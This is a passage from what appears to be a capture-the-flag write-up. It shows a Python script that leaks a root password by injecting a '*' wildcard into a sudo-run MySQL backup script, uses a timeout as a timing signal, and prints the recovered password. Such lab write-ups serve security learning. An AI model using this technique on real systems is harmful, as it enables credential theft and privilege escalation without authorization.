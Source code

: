 ```
```

Running this takes 35-40 seconds, and finds the password:

![](https://0xdf.gitlab.io/img/brute-password-1.gif)

I can make this faster. It hangs each time it finds the correct password because the process on success takes longer to run. What if I give `subprocess.run` a timeout? I’ll have to assume that any time it hits the timeout, it’s because the password was accepted:

```
#!/usr/bin/env python3

import subprocess
import string

leaked_password = ""

while True:
    for c in string.printable[:-5]:
        if c in '*\\%':
            continue
        print(f"\r{leaked_password}{c}", flush=True, end="")
        success = False
        try:
            result = subprocess.run(f"echo '{leaked_password}{c}*' | sudo /opt/scripts/mysql-backup.sh", stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True, timeout=0.3)
        except subprocess.TimeoutExpired:
             success = True
        if success or "Password confirmed" in result.stdout.decode():
            leaked_password += c
            break
    else:
        break
print(f'\r{leaked_password}        ')

```

Running that gets down under 20 seconds:

```
joshua@codify:/dev/shm$ time python3 leak_password.py
kljh12k3jhaskjh12kjh3

real    0m18.253s
user    0m2.193s
sys     0m2.820s

```

Minor improvement, so probably not worth it here, but if the delay on success was longer, it would definitely be!

### su
